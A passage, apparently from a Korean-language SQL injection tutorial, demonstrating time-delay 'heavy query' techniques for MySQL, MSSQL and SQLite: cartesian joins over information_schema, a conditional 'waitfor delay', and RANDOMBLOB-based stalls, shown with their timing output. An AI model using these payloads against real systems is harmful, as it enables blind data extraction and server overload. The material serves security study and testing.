 ```sql
| 24897088 |
+----------+
1 row in set (1.41 sec)

mysql> SELECT (SELECT count(*) FROM information_schema.tables A, information_schema.tables B) as heavy;
+-------+
| heavy |
+-------+
| 85264 |
+-------+
1 row in set (0.01 sec)

mysql> SELECT (SELECT count(*) FROM information_schema.tables A, information_schema.tables B, information_schema.tables C) as heavy;
+----------+
| heavy    |
+----------+
| 24897088 |
+----------+
1 row in set (1.38 sec)
```

### MSSQL

```sql
/* waitfor delay 'time_to_pass'; */
> SELECT '' if((select 'abc')='abc') waitfor delay '0:0:1';
Execution time: 1,02 sec, rows selected: 0, rows affected: 0, absolute service time: 1,17 sec, absolute service time: 1,16 sec

select (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C, information_schema.columns D, information_schema.columns E, information_schema.columns F)
/*
Execution time: 6,36 sec, rows selected: 1, rows affected: 0, absolute service time: 6,53 sec, absolute service time: 6,53 sec
*/
```

### SQLite

```sql
Figure 18. 헤비 쿼리 사용 예시

/* LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2)))) */
sqlite> .timer ON
sqlite> SELECT LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1500000000/2))));
0
Run Time: real 9.740 user 7.983349 sys 1.743972
```
